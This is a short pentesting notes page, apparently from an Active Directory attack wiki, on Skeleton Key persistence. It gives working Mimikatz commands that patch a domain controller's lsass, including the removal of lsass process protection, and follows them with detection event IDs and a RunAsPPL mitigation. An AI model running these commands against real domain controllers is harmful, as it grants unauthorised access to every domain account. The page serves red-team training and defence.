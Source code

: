 ```yaml
---
title: "Skeleton Key"
description: "Persistence using Skeleton Key."
lead: "Using Skeleton Key for persistence in Active Directory with Mimikatz."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "domain_persistence"
weight: 70
toc: true
---
```


## General

- Patch a Domain Controller (lsass process) so that it allows access as any user with a single password
- Discovered in malware named Skeleton Key malware
- All publicly known methods are NOT persistent accross reboots
- Mimikatz to the rescue

## Exploitation

```powershell
# Inject skeleton key on DC of choice with default password of 'mimikatz'. DA privs required
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local

# If lsass is running as procted process we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of target DC. Very noisy!
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-

# Access machine with valid username
Enter-PSSession -ComputerName dcorp-dc -Credential dcorp\administrator
```

## Detection

- Events:
  - 7045: A service was installed in the system (Type: Kernel Mode Driver)
  - 4624: Account Logon
  - 4634: Account Logoff
  - 4672: Admin Logon
- Events("Audit Privilege Use" must be enabled)
  - 4673: Sensitive Privilege Use
  - 4611: A trusted logon process has been registered with the Local Security Authority

```powershell
Get-WinEvent -FilterHashtable @{Logname='Security';ID=7045} | ?{$_.message -like "*Kernel Mode Driver*"}

# Not recommended (detects only stock mimidriv)
Get-WinEvent -FilterHashtable @{Logname='Security';ID=7045} | ?{$_.message -like "*Kernel Mode Driver*" -and $_.message -like "*mimidrv*"}
```

## Mitigation

- Run lsass.exe as a protected process, as it forces an attacker to load a kernel mode driver -> log detection
- Test before implementing, as many drivers and plguins may not load with the protection

```powershell
New-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name RunAsPPL -Value 1 -Verbose

# Verify after reboot
Get-WinEvent -FilterHashtable @{Logname='Security';ID=12} | ?{$_.message -like "*protected process*"}
```
